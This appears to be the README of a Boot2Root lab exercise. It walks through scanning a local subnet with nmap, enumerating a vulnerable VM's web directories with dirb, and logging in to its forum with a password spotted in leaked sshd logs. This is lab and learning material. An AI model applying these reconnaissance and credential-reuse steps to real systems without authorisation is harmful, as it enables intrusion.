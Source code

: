 # Boot2Root
This project is an introduction to the penetration of a system.

--------------------------------------------------------------------------

Step by step guide

--------------------------------------------------------------------------

## We need to fine the IP address of our VM

```ifconfig```

And get something like that:
```vmnet8: flags=8863<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 1500
	ether 00:50:56:c0:00:08
	inet 192.168.152.1 netmask 0xffffff00 broadcast 192.168.152.255
```
(there may be more than 1 vm)

Then use nmap to scan this IP

```nmap 192.168.152.1-255```

And get

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-01-05 15:43 EET
Nmap scan report for 192.168.152.1
Host is up (0.00015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.152.130
Host is up (0.00083s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (2 hosts up) scanned in 28.91 seconds
```
Take the machine with the most open ports.
Our case is ```192.168.152.130```

## Looking for credentials

Install Dirb software
```
git clone https://github.com/v0re/dirb.git
cd dirb/
./configure
make
```
Scan our URL

```
./dirb https://192.168.152.130/ wordlists/common.txt

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Sat Jan  5 15:53:37 2019
URL_BASE: https://192.168.152.130/
WORDLIST_FILES: wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: https://192.168.152.130/ ----
+ https://192.168.152.130/cgi-bin/ (CODE:403|SIZE:292)
==> DIRECTORY: https://192.168.152.130/forum/
==> DIRECTORY: https://192.168.152.130/phpmyadmin/
+ https://192.168.152.130/server-status (CODE:403|SIZE:297)
==> DIRECTORY: https://192.168.152.130/webmail/
```

Research the forum and find 'Probleme login ?' topic, it's logs
Check who log in. Find this:
```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
we suppose that someone put password to login field and then, after couple seconds successfully loged in
So, we try this cred to login the forum ```lmezard/!q\]Ej?*5K5cy*AJ```
Boom! We're here!